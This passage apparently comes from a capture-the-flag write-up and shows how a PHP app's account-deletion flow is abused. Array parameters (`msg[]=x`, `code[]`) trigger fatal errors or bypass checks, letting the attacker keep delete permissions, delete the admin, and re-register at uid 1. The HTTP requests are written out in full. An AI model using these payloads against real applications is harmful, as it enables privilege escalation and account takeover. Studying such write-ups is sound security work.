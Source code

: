 Upon a successful login, the server sets a `PHPSESSID` cookie that is tied to our user account. It is important to note that if no session cookie is provided during the login request, a new one is issued. This will be crucial later.

### 3. Deleting the Admin Account

The settings page allows users to delete their own accounts. However, this functionality has a vulnerability that allows for privilege escalation.

**Technical Explanation:**

In `settings.php`, when a user deletes their own account, the application temporarily grants `users_delete` and `perms_delete` permissions to the session via `add_tmp_perms`. The script then attempts to display a success message using `show_success($_REQUEST['msg'])` before removing the temporary permissions and logging the user out.

We can exploit this by passing `msg` as an array in the URL (`msg[]=x`). The `show_success` function expects a string argument, but we are providing an array. This type mismatch causes a fatal error in the PHP script. The error halts execution immediately. As a result, the code that follows—`rm_tmp_perms(...)` and `header('Location: logout.php')`—is never executed. Our session is not destroyed, and it retains the elevated temporary permissions to delete other users.

First, we delete our own account (`uid = 2`) to trigger the error and gain the temporary permissions:

```http
POST /settings.php?uid=2&msg[]=x HTTP/1.1
Cookie: PHPSESSID=396f3535c2e9346a182df142fb49a46d
Content-Type: application/x-www-form-urlencoded
Content-Length: 14

delete-user=1
```

Now, with our session possessing delete permissions, we can delete the admin account (which has `uid = 1`):

```http
POST /settings.php?uid=1 HTTP/1.1
Cookie: PHPSESSID=396f3535c2e9346a182df142fb49a46d
Content-Type: application/x-www-form-urlencoded
Content-Length: 14

delete-user=1
```

### 4. Creating a New User on UID 1

With the original admin account deleted, the `uid = 1` is now available. When we register a new user, the database will assign the lowest available primary key, which is now 1. We'll register a new user named "fill".

```http
POST /register.php HTTP/1.1
Host: fdf8127bd15a8b51.xn--hkk-qla.shop
Cookie: code
Content-Length: 45
Content-Type: application/x-www-form-urlencoded

username=fill&password=pass&code[]=!=&code[]=
```
